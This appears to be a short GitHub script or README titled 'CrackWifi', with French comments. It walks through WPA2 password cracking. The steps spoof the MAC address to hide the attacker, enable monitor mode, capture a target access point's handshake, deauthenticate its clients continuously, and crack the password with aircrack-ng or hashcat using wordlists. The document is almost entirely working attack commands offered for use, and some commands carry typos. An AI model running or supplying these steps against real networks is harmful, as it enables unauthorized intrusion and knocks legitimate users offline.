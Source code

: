 # CrackWifi
#airodump-ng
#aireplay-ng 
#aircrack-ng 
#hashcat

iwconfig

#desactiver carte wifi pour changer l'adresse MAC (se cacher)
ifconfig wlan0 down 

#changement d'adresse MAC
macchanger –m XX:XX:XX:XX:XX:XX wlan0

#reactiver carte wifi
ifconfig wlan0 up

#passer la carte en mode monitor
iwconfig wlan0 mode monitor 
airmong-ng start wlan0

#scanner réseaux disponibles 
airodump-ng -–encrypt XX wlan0

#ecouter et desauthentifier dans 2 terminaux (tâches fait en 
airodump-ng -w hack1 -c 2 --bssid xx:xx:xx:xx:xx:xx wlan0mon
# -c 2 = channel 
# hack1 = les fichiers qui vont être créés
#xx:xx:xx:xx:xx:xx = mac de la borne cible

#desauthentifier 
aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon
#xx:xx:xx:xx:xx:xx = mac de la borne cible

#crack mot de passe
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt....

#Bonus possible d'utiliser hashcat mais l'extension cap2hccapx est nécessaire:
#present dans hashcatutils
#conversion du fichier cap en hccapx pour hashcat
cap2hccapx info.cap WPA2_capture.hccapx
#puis execute hashcat en spécifiant le "mask" de chiffrement et enregistrement dans un fichier dans l'exemple WPA2_resolved
hashcat -m 2500 -a 6 -O -o WPA2_resolved.txt WPA2_capture.hccapx D:\Dictionnaires\ALL\dico_1.txt D:\Dictionnaires\ALL\dico_2.txt
